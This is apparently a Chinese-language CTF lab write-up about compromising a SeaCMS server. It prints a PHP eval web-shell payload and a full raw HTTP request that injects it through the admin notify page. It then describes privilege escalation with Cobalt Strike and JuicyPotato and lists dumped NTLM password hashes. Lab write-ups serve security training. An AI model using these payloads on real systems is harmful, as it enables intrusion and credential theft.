






# PT-1


# PT-1

发现是海洋 cms，可以找到存在历史漏洞，时间盲注可以注入出用户名和密码



但是找不到这个 cms 后台最后发现改了。改成 cslab 了，账号密码都是 **cslab/cslab**



‍

在这里直接写入 shell，这个后台有很多洞



```python
 ";eval($_POST[123]);//
```

还可以

```python
POST /cslab/admin_notify.php?action=set HTTP/1.1
Host: 10.0.0.68
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: PHPSESSID=ghdopttg3ds0bc7saial96leo3
Referer: http://10.0.0.68/cslab/admin_notify.php
Accept-Language: zh-CN,zh;q=0.9
Origin: http://10.0.0.68
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Cache-Control: max-age=0
Content-Length: 29

notify1=%22%3B%40eval%28%24_POST%5B1%5D%29%3B%22&notify2=1&notify3=1
```

蚁剑连接，



找到 flag



go-flag{a3aecfd5-17db-52a0-ac1d-3a32124b04f4}

然后上线个 cs 烂土豆提个权，抓取一下 hash



```python
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cad8ef0c410c9709cea512052756ce5a:::
ApacheUser:1000:aad3b435b51404eeaad3b435b51404ee:01ef84bcd8079831f0966ac49ae9c0e6:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

‍

flag：cad8ef0c410c9709cea512052756ce5a


---

> 作者: [lpppp](/)  
> URL: https://lpppp.xyz/posts/pt-1/  

